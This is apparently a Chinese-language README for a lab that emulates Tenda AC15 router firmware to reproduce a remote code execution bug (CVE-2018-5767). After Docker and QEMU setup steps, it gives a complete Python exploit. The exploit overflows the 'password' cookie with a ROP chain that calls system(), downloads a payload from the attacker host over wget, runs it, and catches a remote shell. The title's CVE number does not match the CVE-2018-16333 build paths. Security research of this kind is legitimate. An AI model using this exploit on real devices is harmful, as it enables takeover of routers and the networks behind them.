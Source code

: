 # Tenda AC15 路由器远程代码执行（CVE-2018-5767）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80

本环境关系依赖如下，需依次构建：

```sh
# firmianay/ubuntu1604 -> firmianay/qemu-system:armhf

$ cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 . && cd ../../
$ cd baseImage/qemu-system/armhf && docker build -t firmianay/qemu-system:armhf . && cd ../../../
```

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/US_AC15V1.0BR_V15.03.1.16_multi_TD01.bin"
```

然后即可构建本例镜像：

```sh
# cp baseImage/busybox/1.31.0/busybox-armv5l CVE-2018-16333/system-emu/tools/busybox
# cp baseImage/gdbserver/7.11.1/arm-gdbserver-7.11.1 CVE-2018-16333/system-emu/tools/gdbserver

$ docker-compose -f docker-compose-system.yml build
```

最后启动漏洞环境：

```sh
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/

# 漏洞利用，根据输出的地址信息修改 libc_base
$ python3 tools/exp.py
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

import requests
from pwn import *
from threading import Thread

cmd  = b'wget http://192.168.2.1:8000/tools/msf -O /msf '
cmd += b'&& chmod 777 /msf '
cmd += b'&& /msf'

assert(len(cmd) < 255)

libc_base = 0x76df3000

system = libc_base + 0x5A270
mov_r0_ret_r3 = libc_base + 0x40cb8
pop_r3 = libc_base + 0x18298

payload  = b'A'*(444) + b'.gif' + p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3) + cmd

url = "http://192.168.2.2:80/goform/execCommand"
cookie = {"Cookie": 'password='+payload.decode('latin1')}

def attack():
    try: requests.get(url, cookies=cookie)
    except: pass

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

## 参考链接

- https://fidusinfosec.com/remote-code-execution-cve-2018-5767/
- https://www.freebuf.com/articles/wireless/166869.html
- https://wzt.ac.cn/2019/03/19/CVE-2018-5767/
- https://www.anquanke.com/post/id/204326
